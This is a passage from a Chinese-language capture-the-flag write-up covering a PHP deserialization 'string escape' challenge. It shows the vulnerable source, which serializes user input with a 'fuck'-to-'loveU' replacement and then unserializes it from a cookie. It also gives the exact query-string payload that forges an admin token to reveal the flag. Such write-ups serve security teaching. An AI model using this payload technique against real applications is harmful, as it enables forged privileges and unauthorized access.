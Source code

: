 ```php
$m = $_GET['m'];
$t = $_GET['t'];

if(isset($f) && isset($m) && isset($t)){
    $msg = new message($f,$m,$t);
    $umsg = str_replace('fuck', 'loveU', serialize($msg));
    setcookie('msg',base64_encode($umsg));
    echo 'Your message has been sent';
}

highlight_file(__FILE__);
```

前面注释发现有个`message.php` ,访问：

```php
<?php

highlight_file(__FILE__);
include('flag.php');

class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

if(isset($_COOKIE['msg'])){
    $msg = unserialize(base64_decode($_COOKIE['msg']));
    if($msg->token=='admin'){
        echo $flag;
    }
}
```

考察反序列化逃逸，

payload:

```
?f=1&m=1&t=fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}
```

等序列化的时候 t 参数的值会变成`loveU` ,会多一位，原先构造的后边从 双引号 开始的有 27 位，所以我们需要构造 27 个`fuck` ,等序列化后 多出27位造成后边的字符串逃逸。

## web263~session反序列化
